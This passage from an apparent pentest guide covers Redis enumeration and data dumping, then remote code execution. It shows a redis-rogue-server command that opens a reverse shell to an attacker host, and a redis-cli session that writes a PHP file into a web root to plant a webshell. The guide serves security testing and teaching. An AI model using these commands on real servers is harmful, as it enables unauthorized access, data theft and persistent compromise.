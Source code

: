 Or you can just get all the **keyspaces** (databases) with:

```
INFO keyspace
```

In that example the **database 0 and 1** are being used. **Database 0 contains 4 keys and database 1 contains 1**. By default Redis will use database 0. In order to dump for example database 1 you need to do:

```bash
SELECT 1
[ ... Indicate the database ... ]
KEYS * 
[ ... Get Keys ... ]
GET <KEY>
[ ... Get Key ... ]
```

In case you get the follwing error `-WRONGTYPE Operation against a key holding the wrong kind of value` while running `GET <KEY>` it's because the key may be something else than a string or an integer and requires a special operator to display it.

To know the type of the key, use the `TYPE` command, example below for list and hash keys.

```
TYPE <KEY>
[ ... Type of the Key ... ]
LRANGE <KEY> 0 -1
[ ... Get list items ... ]
HGET <KEY> <FIELD>
[ ... Get hash item ... ]
```

**Dump the database with npm**[ **redis-dump**](https://www.npmjs.com/package/redis-dump) **or python** [**redis-utils**](https://pypi.org/project/redis-utils/)

## Redis RCE

### Interactive Shell

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) can automatically get an interactive shell or a reverse shell

```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```

### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
